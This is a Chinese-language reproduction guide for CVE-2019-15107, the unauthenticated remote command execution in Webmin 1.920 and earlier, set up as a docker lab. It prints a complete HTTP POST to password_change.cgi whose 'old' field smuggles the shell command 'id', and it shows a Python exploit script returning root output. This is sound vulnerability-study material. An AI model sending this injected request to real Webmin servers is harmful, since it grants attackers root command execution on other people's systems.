 # （CVE-2019-15107）Webmin 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3234](https://www.zhihuifly.com/t/topic/3234)

# （CVE-2019-15107）Webmin 远程命令执行漏洞

## 一、漏洞简介

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 二、漏洞影响

Webmin <= 1.920

## 三、复现过程

### 环境搭建

执行如下命令，启动webmin 1.910：

```
docker-compose up -d 
```

执行完成后，访问https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

```
POST /password_change.cgi HTTP/1.1
Host: 0-sec.org:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60 `user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2` 
```

![image](img/d1f3abf84be36f0a63da9969e1ab3546.png)

### python usage:

python CVE_2019_15107.py https://0-sec.org:10000 cmd

```
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

* * *

(  ____ |\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ /  \  (  __   )/ ___  

| (    /| )   ( || (    /     /   )  || (  )  |/) ) ( (   ) )    /) ) | (    //) ) | (  )  |/   )  )

| |      | |   | || (__             /   )| | /   |  | | ( (***) |      | | | (***_    | | | | /   |    /  /

| |      ( (   ) )|  **)          */   / | (/ /) |  | |  _***  |      | | (_____ \   | | | (/ /) |   /  /

| |       \ _/ / | (            /   */  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /

| (****/\  \   /  | (****/\     (   (**/|  (**) |__) (*/_***) )    __) (*/_***) )**) (*|  (*_) | /  /

(*******/   _/   (*******/*****_******/(*******)_***/_*****/*****_***/_*****/ _***/(*****______) _/

(*****)                              (***__)

python By jas502n

vuln_url= [https://0-sec.org:10000/password_change.cgi](https://0-sec.org:10000/password_change.cgi) `Command Result = uid=0(root) gid=0(root) groups=0(root)` 
```

## 四、参考链接

> https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
> https://www.exploit-db.com/exploits/47230
> https://blog.firosolutions.com/exploits/webmin/